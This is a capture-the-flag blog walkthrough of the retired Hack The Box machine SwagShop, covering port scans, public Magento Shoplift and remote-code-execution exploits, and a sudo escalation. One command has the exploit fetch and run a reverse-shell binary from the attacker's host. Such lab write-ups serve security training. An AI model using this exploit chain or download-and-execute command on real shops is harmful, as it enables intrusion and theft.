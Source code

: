```yaml
---
layout: post
title: "SwagShop: Hack The Box Walkthrough"
date: 2019-09-28 19:03:53 +0000
last_modified_at: 2019-09-28 19:03:53 +0000
category: Walkthrough
tags: ["Hack The Box", SwagShop, retired]
comments: true
image:
  feature: swagshop-htb-walkthrough.jpg
  credit: Life-Of-Pix / Pixabay
  creditlink: https://pixabay.com/photos/pigeon-bird-walking-street-road-569128/
---
```


This post documents the complete walkthrough of SwagShop, a retired vulnerable [VM][1] created by [ch4p][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

SwagShop is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.140 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-05-14 01:30:31 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.140                                    
Discovered open port 80/tcp on 10.10.10.140
```

Nothing unusual. Let's do one better with `nmap` scanning the discovered ports to establish the services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.140
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
```

The `http` service appears to be running an old version of Magento Community Edition (2014? Hello, it's 2019!). Sometimes it pays to look at the copyright notice down at the footer. Here's how it looks like.

<a class="image-popup">
![d34cc2c8.png](/assets/images/posts/swagshop-htb-walkthrough/d34cc2c8.png)
</a>

Scroll down.

## Magento Community Edition 1.7.0.2

How do I know the version? Check out the release notes basically. The directory structure is also found in a GitHub repository [mirror](https://github.com/OpenMage/magento-mirror/tree/1.7.0.2) for older versions.

<a class="image-popup">
![a09563a1.png](/assets/images/posts/swagshop-htb-walkthrough/a09563a1.png)
</a>

### Magento Shoplift Vulnerability

This particular version is susceptible to the Magento Shoplift vulnerability [discovered](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) by Checkpoint in 2015.

Well, there's a readily available exploit, EDB-ID [37977](https://www.exploit-db.com/exploits/37977) for it. Running this exploit will grant access to the Admin Panel with credentials (`forme:forme`).

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

This next exploit, EDB-ID [37811](https://www.exploit-db.com/exploits/37811) will allow us to execute remote commands. There are just two minor modifications to the exploit script.

<a class="image-popup">
![701cf120.png](/assets/images/posts/swagshop-htb-walkthrough/701cf120.png)
</a>

We got the credentials from the previous exploit. The installation date can be obtained from `http://10.10.10.140/app/etc/local.xml` as suggested.

<a class="image-popup">
![4bfdeefa.png](/assets/images/posts/swagshop-htb-walkthrough/4bfdeefa.png)
</a>

One last thing we need to know is the URL to the Admin Panel, which is `http://10.10.10.140/index.php/admin`. You can get a feel of the directory structure by navigating the site a bit, provided it doesn't give you `503`s :laugh:

## Low-Privilege Shell

I generate a reverse shell with `msfvenom`, host it with Python's SimpleHTTPServer, and also set up a `nc` listener. We then execute the exploit like so.

```
# python rce.py http://10.10.10.140/index.php/admin "wget -O/tmp/rev http://10.10.14.11/rev; chmod +x /tmp/rev; /tmp/rev"
```

<a class="image-popup">
![2654aa89.png](/assets/images/posts/swagshop-htb-walkthrough/2654aa89.png)
</a>

It's customary to display `/etc/passwd`.

<a class="image-popup">
![a7d45ff6.png](/assets/images/posts/swagshop-htb-walkthrough/a7d45ff6.png)
</a>

The file `user.txt` is in `haris`'s home directory and it can be disappointingly read by all.

<a class="image-popup">
![b11e7841.png](/assets/images/posts/swagshop-htb-walkthrough/b11e7841.png)
</a>

## Privilege Escalation

Notice the `.sudo_as_admin_successful`?

<a class="image-popup">
![1859737a.png](/assets/images/posts/swagshop-htb-walkthrough/1859737a.png)
</a>

This means that `haris` is able to `sudo` to a certain extent.

<a class="image-popup">
![4aaf3f8b.png](/assets/images/posts/swagshop-htb-walkthrough/4aaf3f8b.png)
</a>

There you go, classic escape to `root` shell.

<a class="image-popup">
![6d2c05ad.png](/assets/images/posts/swagshop-htb-walkthrough/6d2c05ad.png)
</a>

With that, getting `root.txt` is a breeze.

<a class="image-popup">
![87726194.png](/assets/images/posts/swagshop-htb-walkthrough/87726194.png)
</a>

:dancer:

## Afterthought

What a neat idea to promote the SwagShop!

[1]: https://www.hackthebox.eu/home/machines/profile/188
[2]: https://www.hackthebox.eu/home/users/profile/1
[3]: https://www.hackthebox.eu/

